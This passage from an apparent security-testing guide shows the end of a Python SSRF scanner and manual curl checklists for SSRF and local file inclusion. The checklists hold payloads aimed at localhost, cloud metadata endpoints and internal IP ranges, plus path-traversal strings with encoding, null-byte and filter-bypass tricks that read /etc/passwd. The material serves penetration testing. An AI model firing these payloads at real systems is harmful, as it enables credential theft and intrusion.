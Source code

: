    ```python
                   self.test_ssrf_endpoint(endpoint, param, test_url)
       
       def generate_report(self):
           print(f"SSRF Scan Results: {len(self.vulnerabilities)} vulnerabilities found")
           for vuln in self.vulnerabilities:
               print(f"Endpoint: {vuln['endpoint']}")
               print(f"Parameter: {vuln['parameter']}")
               print(f"Test URL: {vuln['test_url']}")
               print(f"Response: {vuln['response']}")
               print("---")
   
   # Usage
   scanner = SSRFScanner('http://localhost:3000', 'your_token')
   scanner.scan_common_endpoints()
   scanner.generate_report()
   ```

### Manual Testing Techniques

1. **SSRF Detection Checklist**
   ```bash
   # Test localhost variations
   curl -X POST $ENDPOINT -d '{"url":"http://localhost"}'
   curl -X POST $ENDPOINT -d '{"url":"http://127.0.0.1"}'
   curl -X POST $ENDPOINT -d '{"url":"http://0.0.0.0"}'
   curl -X POST $ENDPOINT -d '{"url":"http://[::1]"}'
   
   # Test cloud metadata services
   curl -X POST $ENDPOINT -d '{"url":"http://169.254.169.254/"}'
   curl -X POST $ENDPOINT -d '{"url":"http://metadata.google.internal/"}'
   
   # Test file protocol
   curl -X POST $ENDPOINT -d '{"url":"file:///etc/passwd"}'
   curl -X POST $ENDPOINT -d '{"url":"file:///proc/version"}'
   
   # Test internal network ranges
   curl -X POST $ENDPOINT -d '{"url":"http://192.168.1.1"}'
   curl -X POST $ENDPOINT -d '{"url":"http://10.0.0.1"}'
   curl -X POST $ENDPOINT -d '{"url":"http://172.16.0.1"}'
   ```

2. **LFI Detection Patterns**
   ```bash
   # Basic path traversal
   curl "$BASE_URL/../../../../etc/passwd"
   curl "$BASE_URL/..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts"
   
   # Encoded traversal
   curl "$BASE_URL/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
   curl "$BASE_URL/..%252f..%252f..%252f..%252fetc%252fpasswd"
   
   # Null byte injection (older systems)
   curl "$BASE_URL/../../../../etc/passwd%00.jpg"
   
   # Filter bypass attempts
   curl "$BASE_URL/....//....//....//....//etc/passwd"
   curl "$BASE_URL/..%c0%af..%c0%af..%c0%af..%c0%afetc%c0%afpasswd"
   ```
